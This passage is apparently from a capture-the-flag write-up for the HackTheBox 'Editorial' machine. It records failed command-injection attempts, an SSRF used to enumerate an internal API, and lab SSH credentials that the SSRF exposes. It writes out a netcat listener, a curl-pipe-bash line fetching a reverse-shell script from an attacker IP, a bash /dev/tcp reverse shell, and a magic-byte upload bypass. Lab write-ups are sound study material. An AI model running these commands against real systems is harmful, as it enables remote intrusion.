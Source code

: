 But I cannot access the uploaded file...

Maybe I could upload a file with commands and see if they run?

So first I started a netcat:
`nc -lvnp 2222`

Then I put `;curl 'http://10.10.14.23:2222/revSh.sh'|bash` into my file.

And then I retrieved my file:
`http://10.10.14.23:80/exploit`

Doesn't appear to run the code...

Maybe it should be a php file?

Nope it gets the file but doesn't run the code...

This is it I am sure but I am trying to figure out how.

Maybe its because its not a file that contains the necessary Magic Bytes?

I am going to add `ÿØÿÛC` at the front for jpg.

`http://10.10.14.23:80/exploit.php.jpg`

Hmm nope. I suppose it could be that curl doesn't exist on the server?

Could try something like:
`;bash &>/dev/tcp/10.10.14.23/2222 <&1`

`http://10.10.14.23:80/exploit`

Hmm nope.

Hints for the initial foothold say to enumerate the target using the target...

We could use this webform to do that...

[This](https://medium.com/@sahilnagmote/hackthebox-editorial-walkthrough-6d2c5ce14474) writeup gave me a hint to find the initial foothold. Didn't read it all. Just used it to figure out this is an SSRF and I need to find the port the request is coming from then request that.

When we do we see:
``` json
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}
```

If we run the same check on the linked urls, we get SSH creds:
dev:dev080217_devAPI!@

`ssh dev@editorial.htb`
